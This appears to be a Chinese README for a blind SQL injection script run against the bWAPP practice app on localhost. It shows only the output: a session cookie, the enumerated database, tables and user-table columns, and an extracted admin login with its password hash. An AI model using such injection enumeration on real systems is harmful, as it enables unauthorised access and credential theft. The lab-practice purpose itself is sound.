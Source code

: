 运行环境需要通过docker 安装 bWAPP release版本
替换代码中url ： http://localhost:9999/ -> （你本地项目的 url地址。）
执行结果：
{'PHPSESSID': '8nm097enj2qhbbu88hli4jev31'}
数据库长度为5
数据库名称为：bWAPP
一共有5张表
**********
表字段长度为: 4
blog
**********
**********
表字段长度为: 6
heroes
**********
**********
表字段长度为: 6
movies
**********
**********
表字段长度为: 5
users
**********
**********
表字段长度为: 8
visitors
**********
一共个9字段
**********
表字段长度为: 2
id
**********
**********
表字段长度为: 5
login
**********
**********
表字段长度为: 8
password
**********
**********
表字段长度为: 5
email
**********
**********
表字段长度为: 6
secret
**********
**********
表字段长度为: 15
activation_code
**********
**********
表字段长度为: 9
activated
**********
**********
表字段长度为: 10
reset_code
**********
**********
表字段长度为: 5
admin
**********
A.I.M.@6885858486f31043e5839c735d99457f045affd0
破解耗时: 396.37923550605774 秒

Process finished with exit code 0
